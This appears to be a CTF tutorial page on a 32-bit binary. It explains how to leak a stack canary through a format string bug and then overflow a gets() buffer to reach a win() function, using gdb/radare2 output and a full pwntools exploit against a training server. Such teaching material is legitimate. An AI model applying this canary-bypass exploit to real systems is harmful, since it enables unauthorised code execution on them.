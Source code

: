 ```yaml
---
description: Leaking a stack canary to allow for buffer overflows.
---
```


# canary

{% file src="../../.gitbook/assets/canary.zip" %}

This problem is the first instance where the stack protector, called the **canary** is enabled. We need to figure out how to beat that canary to perform a buffer overflow.

When we run `checksec` on the binary, we notice that the canary is enabled.

```nasm
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/canary/src/canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

PIE is still disabled, meaning we can still use the same techniques we used in the previous binary. However, we can't use the same techniques to overflow the stack. Let's see what happens when we try to overflow the stack.

```nasm
$ python -c "print('A'*1000)" | ./canary
Hello, what is your name?
...
How can I help you today?
*** stack smashing detected ***: terminated
zsh: done                           python3 -c "print('A' * 1000)" | 
zsh: IOT instruction (core dumped)  ./canary
```

A **stack smashing detected** statement in the output indicates that we overwrote the canary. We need to determine how to beat the canary, and then we will proceed as usual.

### Static Analysis

It seems that our primary functions are `main`, `read_in`, and `win`.

* `win` seems only to print the contents of the flag.
* `main` immediately calls `read_in`, then has a `puts` statement. We can use `gdb` to show that reads "You lose!".

`read_in` does a list of things, so let's break it down further. Checking the arguments as we scroll through `gdb`:

*   `puts("Hello, what is your name?")`

    ```nasm
    puts@plt (
      [sp + 0x0] = 0x0804a008 → "Hello, what is your name?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```nasm
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7fc66d0 → 0x0000000e
    )
    ```
*   `printf(ebp-0x4c)`

    ```nasm
    printf@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```
*   `puts("How can I help you today?")`

    ```nasm
    puts@plt (
     [sp + 0x0] = 0x0804a023 → "How can I help you today?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```nasm
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```

After this last check, we see that the canary check is made:

```nasm
0x08049283 <+189>:	mov    eax,DWORD PTR [ebp-0xc]
0x08049286 <+192>:	sub    eax,DWORD PTR gs:0x14
0x0804928d <+199>:	je     0x8049294 <read_in+206>
0x0804928f <+201>:	call   0x8049310 <__stack_chk_fail_local>
```

From this, we gather a few things:

* We write to the same buffer both times that we write to memory.
* The format string vulnerability in the first read means we can leak the canary.
* The existence of a second read means we can pass in a second payload that uses the canary to pass the check, then performs a buffer overflow.
* The canary is stored at `ebp-0xc`.

### Payload Part 1: Leaking the Canary

We know the canary is stored on the stack at `ebp-0xc`. We will use a format string to leak the canary to standard output and then pass that canary to the second payload.

There are two ways to find the offset on the stack that the canary is stored at:

1. Use `gdb` to set a breakpoint before the `gets` call, then count the number of DWORD frames between the stack pointer and canary.
2. Check the location of the stack pointer at the start of the `read_in` function, account for the number of operations on the stack pointer, then count the number of DWORD frames between the stack pointer and canary.

The first one is by far easier and more practical.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  canary
[+] The canary of process 44910 is at 0xffffd80b, value is 0x8fdba200
gef➤  x/40wx $esp
0xffffd530:	0xffffd54c	0x00000001	0xf7ffda40	0x080491d2
0xffffd540:	0xf7fc4540	0xffffffff	0x08048034	0xf7fc66d0
0xffffd550:	0xf7ffd608	0x00000020	0x00000000	0xffffd750
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0x8fdba200
0xffffd590:	0xffffd5d0	0x0804c000	0xffffd5a8	0x080492b8
0xffffd5a0:	0xffffd5c0	0xf7e2a000	0xf7ffd020	0xf7c21519
0xffffd5b0:	0xffffd82e	0x00000070	0xf7ffd000	0xf7c21519
0xffffd5c0:	0x00000001	0xffffd674	0xffffd67c	0xffffd5e0
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x08049210]> pxw 4 @ ebp-0xc
0xffd5f06c  0x0b2e2700                                   .'..
[0x08049210]> pxw 160 @ esp
0xffd5f010  0xffd5f02c 0x00000001 0xf7fafa40 0x080491d2  ,.......@.......
0xffd5f020  0xf7f76540 0xffffffff 0x08048034 0xf7f786d0  @e......4.......
0xffd5f030  0xf7faf608 0x00000020 0x00000000 0xffd5f280  .... ...........
0xffd5f040  0x00000000 0x00000000 0x01000000 0x0000000b  ................
0xffd5f050  0xf7f76540 0x00000000 0xf7c184be 0xf7e2a054  @e..........T...
0xffd5f060  0xf7f70680 0xf7f88f90 0xf7c184be 0x0b2e2700  .............'..
0xffd5f070  0xffd5f0b0 0x0804c000 0xffd5f088 0x080492b8  ................
0xffd5f080  0xffd5f0a0 0xf7e2a000 0xf7faf020 0xf7c21519  ........ .......
0xffd5f090  0xffd605ae 0x00000070 0xf7faf000 0xf7c21519  ....p...........
0xffd5f0a0  0x00000001 0xffd5f154 0xffd5f15c 0xffd5f0c0  ....T...\.......
```
{% endtab %}
{% endtabs %}

`gdb` tells us that the canary is at `0xffffd80b`. If we count from our location to the canary, we see that it is 23 DWORDs away. We can verify this using the format string:

```nasm
$ ./canary
Hello, what is your name?
%23$x
6de5f500
```

This appears to work! Let's turn this into a `pwntools` script:

```python
p.recvline()
p.sendline(b'%23$x')
canary = int(p.recvline().strip(), 16)
```

### Payload Part 2: Overflowing the Buffer

Now that we have the canary, we can overflow the buffer. We need to do this in two steps:

1. Write data until we reach the canary, then write the canary to the stack (so it doesn't get modified).
2. Write data from the canary to the return pointer, then overwrite the return pointer with the address of `win()`.

We discussed earlier that the canary is stored at `ebp-0xc`. Based on the argument passed to `gets()`, we start writing at `ebp-0x4c`. This means we need to write `0x40=64` bytes of data before reaching the canary.

Our payload here could look like this:

```python
payload = b'A' * 0x40
payload += p32(canary)
```

Then, we need to write from the canary to the return pointer. The canary sits at `ebp-0xc`, and the return pointer always sits at `ebp+0x4` (because the base pointer is at `ebp+0x0`). Remember that the canary takes four bytes itself, meaning we start to write at `ebp-0x8`. This means we need to write `0xc` bytes of data to reach the return pointer.

Our payload here could look like this:

```python
payload += b'B' * 0xc
payload += p32(win)
```

{% hint style="warning" %}
#### _Why did I use "B" this time?_

I can use any value to fill the empty space. I choose to use a different value for debugging purposes. In the case that my payload is wrong, it's easier to tell if I overfilled or underfilled the buffer by using two different values.
{% endhint %}

From here, we put it all together into one large payload and send it off!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4100)

# leak the canary
payload = b'%23$p'
print(proc.recvline())
proc.sendline(payload)

# get output to store the canary
leak = proc.recvline().strip()
leak = int(leak.decode(), 16)
print(proc.recvline())

print("Canary Leaked:", hex(leak))

# build the payload with the canary
payload = b'A' * 0x40
payload += p32(leak)
payload += b'A' * 0xc
payload += p32(0x080492d9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running this gets us our flag.
